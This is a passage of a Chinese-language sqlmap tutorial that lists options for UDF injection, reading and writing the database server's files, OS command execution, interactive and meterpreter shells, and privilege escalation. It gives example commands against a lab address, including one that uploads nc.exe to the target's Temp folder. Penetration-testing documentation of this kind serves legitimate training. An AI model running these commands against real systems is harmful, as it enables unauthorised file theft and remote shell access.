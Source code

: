 ###### 3.10 暴力

这些选项可以被用来运行暴力检查

```
   –common-tables     检查存在共同表

   –common-columns    检查存在共同列
```

###### 3.11 用户自定义函数注入

这些选项可以用来创建用户自定义函数

  

```
   –udf-inject    注入用户自定义函数

   –shared-lib=SHLIB  共享库的本地路径
```

###### 3.12 访问文件系统

这些选项可以被用来访问后端数据库管理系统的底层文件系统

```
   –file-read=RFILE   从后端的数据库管理系统文件系统读取文件，SQL Server2005中读取二进制文件example.exe:

sqlmap.py -u”http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther“–file-read “C:/example.exe” -v 1

   –file-write=WFILE  编辑后端的数据库管理系统文件系统上的本地文件

   –file-dest=DFILE   后端的数据库管理系统写入文件的绝对路径

在kali中将/software/nc.exe文件上传到C:/WINDOWS/Temp下：

python sqlmap.py -u”http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1” –file-write”/software/nc.exe” –file-dest “C:/WINDOWS/Temp/nc.exe” -v1
```

###### 3.13 操作系统访问

这些选项可以用于访问后端数据库管理系统的底层操作系统

```
   –os-cmd=OSCMD   执行操作系统命令（OSCMD）

   –os-shell          交互式的操作系统的shell

   –os-pwn          获取一个OOB shell，meterpreter或VNC

   –os-smbrelay       一键获取一个OOBshell，meterpreter或VNC

   –os-bof           存储过程缓冲区溢出利用

   –priv-esc          数据库进程用户权限提升

   –msf-path=MSFPATH  MetasploitFramework本地的安装路径

   –tmp-path=TMPPATH  远程临时文件目录的绝对路径
```

